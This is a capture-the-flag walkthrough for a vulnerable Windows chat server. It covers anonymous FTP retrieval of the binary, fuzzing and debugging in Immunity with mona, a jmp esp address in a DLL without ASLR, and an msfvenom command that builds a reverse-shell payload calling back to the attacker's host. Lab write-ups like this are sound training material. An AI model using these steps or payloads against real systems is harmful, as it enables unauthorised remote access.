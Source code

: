 # Tools
* nmap for enum  
* Immunity Debugger and mona script  
* netcat to catch reverse shell  
* msfvenom to generage shell code  
# Knowledge
* FTP's binary mode
* buffer overflow
# Walkthrough
## Enumeration
The nmap default TCP scan reveals only 3 ports.  
```nmap -v -Pn -p1-65535 $TARGET_IP | tee nmap_result```  
```
	PORT     STATE SERVICE
	21/tcp   open  ftp
	3389/tcp open  ms-wbt-server
	9999/tcp open  abyss
```  
I accessed a ftp port using ftp command.
```ftp -v $TARGET_IP 21```  
I could use the default credential. (Username: anonymous / Password: )  
Found interesting files in chatserver directory.  
```
	ftp> ls
	200 PORT command successful.
	125 Data connection already open; Transfer starting.
	08-29-19  10:26PM                43747 chatserver.exe
	08-29-19  10:27PM                30761 essfunc.dll
```  

Then, I connected to a port 9999 using netcat, and it seemingly is related to chatserver.exe.  

Note that you need to use binary command before downloading chatserver.exe and essfunc.dll.  
```
	ftp> cd chatserver
	250 CWD command successful.
	ftp> binary
	200 Type set to I.
	ftp> mget *
	mget chatserver.exe? y
	200 PORT command successful.
	150 Opening BINARY mode data connection.
	226 Transfer complete.
	43747 bytes received in 1.53 secs (27.8335 kB/s)
	mget essfunc.dll? y
	200 PORT command successful.
	125 Data connection already open; Transfer starting.
	226 Transfer complete.
	30761 bytes received in 1.23 secs (24.4719 kB/s)
```

Next, to exploit this chat program using buffer overflow, you need to run it on Immunity Debugger.  
I set up Windows 7(,XP) on virtualbox, ran the program on Immunity Debugger, and connected from the host Machine.  
I tested the program by entering a number of As.  
![alt text](./images/As.png?raw=true)  
![alt text](./images/registers?raw=true)  

Fuzzing ended with sending around 2000 bytes.  
Then, I sent a cyclic pattern created by pattern_create.rb and analyzed the memory using mona to find RIP offset.  
![alt text](./images/patterns_mona.png?raw=true)  
I checked bad characters were detected, but none of \x01 ~ \xff was bad chars.  

Now that we know the EIP offset, we need to find out which address we'll store in EIP.  
By executing the following mona command on Immunity Debugger, I found essfunc.dll doesn't enable ASLR.  
![alt text](./images/ASLR.png?raw=true)  
Therefore, the address where "jump esp" instructions are located in essfunc.dll is the one we need to store in EIP.  
Modifying exploit.py so it contains the address of "jump esp" and the shellcode generated using msfvenom by the following command,  
```
msfvenom -p windows/shell_reverse_tcp LHOST=$MYIP LPORT=4444 EXITFUNC=thread -b "\x00" -f c  
```

Then, I ran ```python3 exploit.py```, I got reverse shell with admin privilege.  

